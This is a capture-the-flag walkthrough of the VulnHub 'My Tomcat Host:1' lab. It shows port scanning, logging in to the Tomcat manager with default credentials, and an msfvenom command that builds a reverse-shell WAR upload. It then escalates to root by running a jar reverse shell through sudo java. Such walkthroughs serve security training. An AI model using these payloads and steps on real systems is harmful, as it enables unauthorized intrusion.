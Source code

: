 # My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

### arp scan to find out our machine ip address on the network
![arp-scan](images/MyTomcatHost-1/arp-scan.png)

we found out our target ip address is 192.168.56.102

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/MyTomcatHost-1/nmap-scan.png)

**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

**-Pn** - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 2 ports are open:

*port 22* - ssh OpenSSH.

*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/

we got the Tomcat's welcome screen:
![tomcat-welcome-screen](images/MyTomcatHost-1/tomcat-welcome-screen.png)

if we try to enter the Manager App we get an authentication request:
![tomcat-auth-req](images/MyTomcatHost-1/tomcat-auth-req.png)

after searching the default username and password of tomcat version 9/8 on google this worked:

username: tomcat

password: tomcat

and we got in!
![tomcat-manager](images/MyTomcatHost-1/tomcat-manager.png)

now from the manager page we can uplaod new service applications to the server.

lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first let's create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:
![reverse-shell-create](images/MyTomcatHost-1/reverse-shell-create.png)

**command explain:**

**msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war**

**msfvenom** - rapid7 (creators of metasploit tool) tool for payload generation.

**-p** - payload to use.

**LHOST** - attacker ip address.

**LPORT** - attacker ip port.

**-f** - output format.
generating payload into shell.war file.

**nc -lvp 1234**

**nc** - netcat, tcp and udp tool for connections and listens.

**-l** - listen for connections.

**-v** - verbose output.

**-p** - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:
![upload-war-file](images/MyTomcatHost-1/upload-war-file.png)

if we browse to the service url: http://192.168.56.102:8080/shell/

we got a shell!

let's get a normal shell using python pty:

![foothold-shell](images/MyTomcatHost-1/reverse-shell-foothold.png)

let's see our sudo allowed commands:
![sudo-commands](images/MyTomcatHost-1/sudo-commands.png)

we can run java as root!

lets use the same method we got the reverse shell to get a root access but this time we create a jar file.

we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:

**on the attacker machine:**
![reverse-shell-send](images/MyTomcatHost-1/create-shell-send.png)
**on the target machine:**
![wget-revershell](images/MyTomcatHost-1/wget.png)

**fire up metasploit and set up the exploit:**
![msf](images/MyTomcatHost-1/msf.png)
**run the jar file in th target machine:**
![run-jar](images/MyTomcatHost-1/run-jar.png)

**and we got root access!!**

![root](images/MyTomcatHost-1/root.png)
